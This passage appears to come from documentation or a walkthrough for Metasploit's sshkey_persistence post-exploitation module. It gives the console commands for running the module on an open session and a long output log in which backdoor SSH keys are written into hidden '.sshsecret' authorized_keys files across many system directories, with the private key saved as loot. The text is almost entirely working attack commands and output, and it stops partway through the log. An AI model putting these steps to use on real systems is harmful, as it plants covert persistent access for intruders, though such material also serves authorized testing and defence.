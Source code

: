 Use the post module to write the ssh key.  Keep in mind NOT setting a user (targeted), and CreateSSHFolder will possibly make MANY folders/files as can be observed below.

    msf auxiliary(ssh_login) > use post/linux/manage/sshkey_persistence 
    msf post(sshkey_persistence) > set session 1
    session => 1
    msf post(sshkey_persistence) > set verbose true
    verbose => true
    msf post(sshkey_persistence) > set CreateSSHFolder true
    CreateSSHFolder => true
    msf post(sshkey_persistence) > exploit
    
    [*] Checking SSH Permissions
    [+] Pubkey set to yes
    [*] Authorized Keys File: .sshsecret/.authorized_keys
    [*] Finding .sshsecret directories
    [*] Attempting to create ssh folders that don't exist
    [*] Creating //.sshsecret folder
    [*] Creating /bin/.sshsecret folder
    [*] Creating /dev/.sshsecret folder
    [*] Creating /etc/abrt/.sshsecret folder
    [*] Creating /etc/ntp/.sshsecret folder
    [*] Creating /proc/.sshsecret folder
    [*] Creating /root/.sshsecret folder
    [*] Creating /sbin/.sshsecret folder
    [*] Creating /usr/games/.sshsecret folder
    [*] Creating /var/adm/.sshsecret folder
    [*] Creating /var/cache/rpcbind/.sshsecret folder
    [*] Creating /var/empty/saslauth/.sshsecret folder
    [*] Creating /var/empty/sshd/.sshsecret folder
    [*] Creating /var/ftp/.sshsecret folder
    [*] Creating /var/gopher/.sshsecret folder
    [*] Creating /var/lib/avahi-autoipd/.sshsecret folder
    [*] Creating /var/lib/gdm/.sshsecret folder
    [*] Creating /var/lib/hsqldb/.sshsecret folder
    [*] Creating /var/lib/mysql/.sshsecret folder
    [*] Creating /var/lib/nfs/.sshsecret folder
    [*] Creating /var/run/avahi-daemon/.sshsecret folder
    [*] Creating /var/run/pulse/.sshsecret folder
    [*] Creating /var/spool/lpd/.sshsecret folder
    [*] Creating /var/spool/mail/.sshsecret folder
    [*] Creating /var/spool/postfix/.sshsecret folder
    [*] Creating /var/spool/uucp/.sshsecret folder
    [*] Creating /var/www/.sshsecret folder
    [+] Storing new private key as /root/.msf4/loot/20160619155920_default_192.168.4.62_id_rsa_271813.txt
    [*] Creating //.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [!] No active DB -- Credential data will not be saved!
    [*] Creating /bin/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /dev/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /etc/abrt/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /etc/ntp/.sshsecret/.authorized_keys
